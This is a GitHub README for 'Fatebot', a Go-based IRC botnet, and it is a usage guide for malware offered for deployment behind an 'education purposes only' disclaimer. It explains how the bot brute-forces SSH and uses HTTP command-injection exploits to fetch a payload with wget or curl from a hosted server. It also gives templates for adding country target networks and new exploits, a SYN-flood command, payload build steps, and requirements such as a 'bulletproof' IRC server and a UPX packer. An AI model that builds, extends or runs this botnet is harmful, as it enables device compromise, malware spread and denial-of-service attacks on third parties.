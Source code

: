 <p align="center">
	<a href="https://github.com/boz3r/Fatebot">
		<img src="assets/just_add_Fate_txt.png" alt="fatebot" width="440" height="440">
	</a>
	<br>
	<a href="https://github.com/boz3r/Fatebot/blob/master/LICENSE">
		<img src="https://img.shields.io/badge/license-Unlicense-red?style=plastic">
	</a>
	<a href="https://github.com/boz3r/Fatebot">
    		<img src="https://img.shields.io/badge/version-v0.8.2-lightgrey?style=plastic">
	</a>
	<a href="https://go.dev/">
    		<img src="https://img.shields.io/badge/language-Go-red?style=plastic">
	</a>
	<a href="https://en.wikipedia.org/wiki/Linux">
    		<img src="https://img.shields.io/badge/platform-linux-lightgrey?style=plastic">
	</a>
  	</br>
</p>

<p align="center">
	<b><ins>⚠️ DISCLAIMER ⚠️</ins></b>
	<br>
		I create this project for education purposes only, the use of this software is your responsibility!!!
	<br>
</p>

---

# Spread Feature
The spread feature will scan on the default SSH and HTTP (vulnerabilities). Option about the scan feature in this bot is to scan on CN, USA, KR, and BR networks or you can do a random scan or even you can add your own networks, all of these is up to you. This bot will brute-force attack and exploit the target device, server, etc that's run Linux or uses MIPS/ARM x32 architecture. The loader will use "wget" or "curl" as a default loader for downloading payload from The FTP server or any option in any server type that you can host your payload, not maintionly to be an FTP server.
	
	# How to add more scanner network (Create your own scan mod).
	
	1) Go to the scanner.go file and add a new slice for your scan network.
	
		# Example:
			
			var Italy_Network = []string {
				"123.456", //123.456.0.0/16
			}
			
			# since v0.6.0 will use only 16 bits of the IP range to set up scan networks (I'm still confused about the subnet mask LOL).
			
	2) Go to the header.go file and scroll down to the map name "ScanMap".
	3) Customize your key and value. The value of the map is structure, so you need to call a value in the "Bot" structure and fill it.
	
		# Example:
		
			"-fi": {				 # This key will be the command of a network arg in the "?scan" command.
				scanNetwork: Finland_Network, 	 # Fill the "scanNetwork" that's a value of the "Bot" structure. To your network slice.
				scanOptFull: "\"FINLAND\"",	 # Add the full name of the network for a reporting process.
				isRandom:    false,		 # Set "isRandom" to false because it's not a full random network.
			},
	
	4) Done... Just save it.
	
# Add/Customize Exploit
The exploit that's used in this botnet mostly will be a command injection (TBH it's all of it LMAO). You can add more new exploits if you want, but I recommend it to be a command injection vulnerability because you don't need to add or write anything more you just need to config it. I try to make the exploit feature easy and flexible to the configuration as much as I can. If two examples down below is not enough you can see more example in "internal/exploit.go".

	#################################################################
	### Example 1: In case that you want to add a new HTTP header ###
	#################################################################
	
	func (b *Bot) CVE_someYear_newCVE1() {
		
		# If you add a post exploit, then customize it with a JSON.
		# In case that your exploit needs to inject on a post body just call an inject function --> b.inject("default or MIPS", true)
		
		
		# This example will use default architecture so that's why we put "default" if your exploit use MIPS just put "mips".
		# Always put true because we are doing an exploit not scanning (The inject function has been reused in the scanner function).
			
		newCVE1, _ := json.Marshal(map[string]string{
			"example":      "something",
			"example":      "something"+b.inject("mips", true),
		})
		
		# This is just a HTTP header customization.
		# Incase your exploit needs to inject on a header just do the same with the body. 
		
		enewCVE1 := Exploit{
			exploitName:       "CVE_someYear_newCVE1",			# Customize the exploit name for a reporting process.
			exploitMethod:     "POST",					# Which HTTP method you will use for this exploit?
			exploitPath:     "example/something",				# Customize URL path.
			exploitBody:       strings.NewReader(string(newCVE1)),	        # Customize HTTP body.
			exploitAgent:      "example"+b.inject("mips", true),		# Customize HTTP agent.
			exploitAccept:     "example",					# Customize HTTP accept.
			exploitContType:   "example",					# Customize HTTP content type.
			exploitConnection: "example",					# Customize HTTP connection.
		}
		
		# If you want to add new header then just call it, like the example down below.
		
		_, newHeader := enewCVE1.setupExploit(b.tempIP)			# Use "enewCVE1" for calling the Exploit structure-function.
		newHeader.Header.Set("newHeader", "headerContent")		# Add a new header (header, header_content).
		b.exploitLauncher(enewCVE1, newHeader)				# Launch the exploit by putting the exploit structure and header in to "b.exploitLauncher(ourExploit, ourHeader)" function.
	}
	
	##################################################################
	### Example 2: In case you don't need to add a new HTTP header ###
	##################################################################
	
	# This example is the same as the first example in terms of header and body configs.
	
	func (b *Bot) CVE_someYear_newCVE2() {			
		newCVE2, _ := json.Marshal(map[string]string{
			"example":      "something",
			"example":      "something"+b.inject("", true),
		})
		enewCVE2 := Exploit{
			exploitName:       "CVE_someYear_newCVE2",			# Customize the exploit name for a reporting process.
			exploitMethod:     "POST",					# Which HTTP method you will use for this exploit?
			exploitPath:       "example/something",				# Customize URL path.
			exploitBody:       strings.NewReader(string(newCVE2)),	        # Customize HTTP body.
			exploitAgent:      "example"+b.inject("", true),		# Customize HTTP agent.
			exploitAccept:     "example",					# Customize HTTP accept.
			exploitContType:   "example",					# Customize HTTP content type.
			exploitConnection: "example",					# Customize HTTP connection.
		}

		b.exploitLauncher(enewCVE2,  b.selfRequest(enewCVE2))		# In the first example, you need to call "setupExploit" function but in this example, you don't need to call it.
										# Just call the "exploitLauncher" function and in the second argument using the "selfRequest" function instead of a newHeader value. 
										# Because we only use the default header set and then put our exploit structure into the "selfRequest" argument.
	}
	
# Attack Feature
The attack feature mostly will play around with The Transport Layer, but also have an application and The Network Layer too.
All of the attack vectors except "HTTP" DDoS vectors will be random source ports and windows size automatically, but the DST port will let the bot herder config by themself.

	# tcp -syn 127.0.0.1 192.168.50.129 -r 100 //a command that's used in this screenshot.

<img src="assets/synflood.png" alt="synflood, DoS example">

# IRC Commands
	
	cat irc/commands.txt 
	
	# I have moved IRC commands from GitHub repositories to the file name commands.txt in irc folder.

# Build Payload

	chmod +x build.sh
	./build.sh <payload>
	
	# The bot system architecture is up to which payload you upload on your payload server.
	# If you upload x32 on your payload server, the bot that you have scanned will be only x32 arch.
	# The MIPS and ARM architecture is specific for doing an exploit only, so it doesn't count to the scan process!!!
	# To run the payload you need to run with root access!!!

# Requirements
<ul>
	<li>x1 Bulletproof IRC Server</li>
</ul>

<ul>
	<li>x1 Payload Hosting Server</li>
</ul>

<ul>
	<li>IRC Client</li>
</ul>

<ul>
	<li>Go Compiler</li>
</ul>

<ul>
	<li>UPX Packer</li>
</ul>

<ul>
	<li>Code\Text Editor</li>
</ul>

